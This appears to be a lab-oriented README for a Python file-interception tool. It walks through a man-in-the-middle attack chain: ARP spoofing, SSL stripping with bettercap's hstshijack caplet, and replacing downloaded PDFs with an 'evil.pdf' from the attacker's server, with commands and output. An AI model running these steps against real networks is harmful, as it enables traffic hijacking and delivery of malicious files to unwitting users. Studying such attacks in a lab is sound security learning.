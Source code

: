 # File interceptor

## Requirements

* Root access
* Python 3
* Scapy and NetfilterQueue modules

## Usage

```shell
usage: file_interceptor.py [-h] [-e EXTENSION] [-d DESTINATION] [-u URL]

File replacement tool (use Bettercap hstshijack/hstshijack for sslstripping)

optional arguments:
  -h, --help            show this help message and exit
  -e EXTENSION, --extension EXTENSION
                        File extension
  -d DESTINATION, --destination DESTINATION
                        sslstrip, forward, or local
  -u URL, --url URL     Replacement url

Example: 
            file_interceptor.py # replace a .pdf with an evil.pdf file in location apache2 server on kali, sslstrip
            file_interceptor.py -e .pdf -u 192.168.122.108/evil/evil.pdf            # replace a .pdf file
            file_interceptor.py -e .pdf -u 192.168.122.108/evil/evil.pdf -d local   # test replacing a .pdf file
                                                                                                                      
```

## Kicking the tyres

* Choose what type of file to replace, and make sure you have a replacement file in `/var/www/html/evil/`
* Run the [arp_spoofer.py script](/arp_spoofer/arp_spoofer)

```shell
    @kali:~$ sudo python3 arp_spoofer.py
    [sudo] password for <user>: 
    [+] Setting forward
    [+] Packets sent: 63
```
* Run `bettercap` (also see the Troubleshooting section below)

```shell
    @kali:~$ sudo bettercap -iface eth0 -caplet hstshijack/hstshijack
```
* Run the `file_interceptor.py` script. Defaults are set to replace a .pdf with an evil.pdf file in the `/var/www/html/evil/` location of the Kali `apache2` server on the Kali VM, and using `sslstrip`.

```shell
    @kali:~$ sudo python3 file_interceptor.py 
```
And test file is replaced on Windows machine. Clear cache and history of browser first!

## Troubleshooting

* [ImportError on NetfilterQueue](https://github.com/tymyrddin/ymrir/wiki/netfilterqueue.md)
* [ImportError on Scapy](https://github.com/tymyrddin/ymrir/wiki/scapy.md)
* [Bettercap sslstrip not working](https://github.com/tymyrddin/ymrir/wiki/bettercap.md)
* [Undesired HTTPS redirects](https://github.com/tymyrddin/ymrir/wiki/https-browser.md)
* [Correctly configured HSTS](https://github.com/tymyrddin/ymrir/wiki/hsts.md)